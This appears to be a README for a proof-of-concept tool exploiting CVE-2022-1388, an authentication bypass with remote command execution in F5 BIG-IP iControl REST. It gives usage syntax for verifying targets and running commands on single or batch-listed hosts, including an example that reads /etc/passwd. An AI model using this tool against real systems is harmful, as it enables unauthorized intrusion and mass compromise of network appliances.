



# F5 BIGIP iControl REST Auth Bypass RCE

## USAGE

```bash
usage: CVE-2022-1388.py [-h] [-u URL] [-c COMMAND] [-f FILE] [-m MODE] [-t THREADS]

CVE-2022-1388 F5 BIG-IP iControl REST Auth Bypass RCE POC, detecting results save to
results.txt

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     target url, eg: http://127.0.0.1:8080
  -c COMMAND, --command COMMAND
                        remote execute command, eg: -c 'whoami'
  -f FILE, --file FILE  load target urls from file
  -m MODE, --mode MODE  set verify or exploit mode, default poc. eg: -m <poc|exp>
  -t THREADS, --threads THREADS
                        if set file option, will exploit with threads,default 10.
                        eg: -t 15
```

### 单个url验证

./CVE-2022-1388.py -u <url>


### 批量验证

./CVE-2022-1388.py -f <urls.txt>


### 单个url执行命令

```bash
./CVE-2022-1388.py -u <url> -c 'cat /etc/passwd'
```



### 批量执行命令

```bash
./CVE-2022-1388.py -f <urls.txt> -c 'whoami'
```
